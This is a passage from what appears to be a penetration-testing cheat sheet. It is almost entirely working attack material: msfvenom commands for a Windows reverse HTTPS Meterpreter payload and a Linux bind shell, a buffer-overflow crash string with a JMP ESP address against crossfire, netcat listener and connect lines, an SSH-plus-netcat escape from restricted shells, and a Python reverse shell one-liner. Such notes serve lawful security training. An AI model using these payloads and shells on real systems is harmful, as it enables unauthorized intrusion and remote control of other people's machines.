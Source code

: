     -   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe

-   Linux Buffer Overflows

    -   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    -   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax

    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF

    -   Find JMP ESP address  
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597

    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

    -   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

    -   Connect to the shell with netcat:  
        nc -v $ip 4444
        
Shells
===================================================================================================================================

-   Netcat Shell Listener  

    `nc -nlvp 4444`

-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.
         
        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
        
        (hint: sudo -l to see what you can run)
        
     -   You may encounter limited shells that use rbash and only allow you to execute a single command per session.
         You can overcome this by executing an SSH shell to your localhost:
         
               ssh user@$ip nc $localip 4444 -e /bin/sh
               enter user's password
               python -c 'import pty; pty.spawn("/bin/sh")'
               export TERM=linux
         
      `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
